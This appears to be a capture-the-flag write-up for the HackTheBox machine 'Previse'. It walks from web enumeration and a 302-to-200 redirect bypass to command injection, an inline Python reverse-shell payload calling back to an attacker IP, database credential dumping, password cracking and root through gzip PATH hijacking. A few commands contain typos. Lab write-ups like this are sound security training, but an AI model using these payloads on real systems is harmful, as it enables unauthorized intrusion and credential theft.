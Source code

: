 # Previse HackTheBox
![Pasted image 20210808114616](https://user-images.githubusercontent.com/5285547/128632748-0d83d51b-80c5-4183-8528-6d22eca06a25.png)


 Link: https://www.hackthebox.eu/home/machines/profile/373
 
 ## Enum
 
 Nmap 
 
 ```sh
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
 ```
 
 Ffuf
 
 ```
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
favicon.ico             [Status: 200, Size: 15406, Words: 15, Lines: 10]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
.                       [Status: 302, Size: 2801, Words: 737, Lines: 72]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
 ```
 
Curl

```
curl http://10.129.156.76/files.php
```
 
![Pasted image 20210808115843](https://user-images.githubusercontent.com/5285547/128632797-ed5818f5-951e-43e3-bb43-58e0a6b8ca89.png)

 
So it seems we can access parts of the site with a fwe tricks. Testing further showed I can capture the request from nav.php and then change the response from a 302 to 200 to access the account page. 

Clicking on Do Intercept > Response to this request. 

![Pasted image 20210808120901](https://user-images.githubusercontent.com/5285547/128632802-e071cb54-d5b7-4841-bf0b-eaee33fff54f.png)

Change the 302 to 200

![Pasted image 20210808120931](https://user-images.githubusercontent.com/5285547/128632807-4ef85fe3-ab62-41dd-82f8-3f6d97b12a4d.png)

Create a new user and use the same tatics for capturing the request and editing the response. 

![Pasted image 20210808121122](https://user-images.githubusercontent.com/5285547/128632809-9c070d26-6f1f-4b30-8439-e95d17449f9c.png)

Then login with the new account. 

![Pasted image 20210808121244](https://user-images.githubusercontent.com/5285547/128632811-6dfb5364-f548-4c8a-b0cb-852664cd5fdd.png)

Files. 

config.php

```
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

logs.phg

![Pasted image 20210808122858](https://user-images.githubusercontent.com/5285547/128632824-737e312c-6a55-4b6c-bb12-5157c38f3119.png)

In logs.php we can ssee the developer had to use python instead of PHP for the delimiters for ease of use and this also looks vunerable to command injection. 

## User

Reverse shell.

To get a reverse shell. Login as your new user, goto the Management menu > logs. 

Capture the request in burp and add a python reverse shell to the delim attribute. 

```
delim=comma;python3+-c+'import+os,pty,socket%3bs%3dsocket.socket()%3bs.connect(("10.10.14.250",9999))%3b[os.dup2(s.fileno(),f)for+f+in(0,1,2)]%3bpty.spawn("/bin/bash")'
```

![Pasted image 20210808122549](https://user-images.githubusercontent.com/5285547/128632831-3944e2f8-bce1-42e7-9d06-24828f3194cc.png)

Have your netcat listner ready! 

```sh
rlwrap -cAr nc -lnvp 9999
```

### mysql

Let's get any info and hash's from the database. 

```sql
mysql -u root -p
pass:mySQL_p@ssw0rd!:)

show databases;
use previse;
show tables;

select * from accounts;
```

![Pasted image 20210808132042](https://user-images.githubusercontent.com/5285547/128632834-98e360e5-bda9-49a9-8580-ab847e84ece8.png)

Cracking the hash

hashcat

```bash
hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt -O
```

john

```bash
john -format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```sh
m4lwhere:ilovecody112235!
```

Time to SSH into the box for a better shell. 

```sh
ssh m4lwhere@IP
```

## Root

![Pasted image 20210808134325](https://user-images.githubusercontent.com/5285547/128632874-a05a0c64-f288-4bb6-81cc-8646d3edfbcb.png)

Let's try some path abuse for gzip.

```sh
cd /tmp
cat << EOF > gzip
> #!/bin/bash
> cp /bin/bash /tmp/c             
> chmod u+s /tmp/c
> EOF
chmod +x gzip
export PATH=/tmp:PATH
```

```sh
sudo /opt/scripts/access_backup.sh
/tmp./c -p
```

![Pasted image 20210808135613](https://user-images.githubusercontent.com/5285547/128632869-a510ef67-f3c9-45cd-a21e-add95c04b502.png)
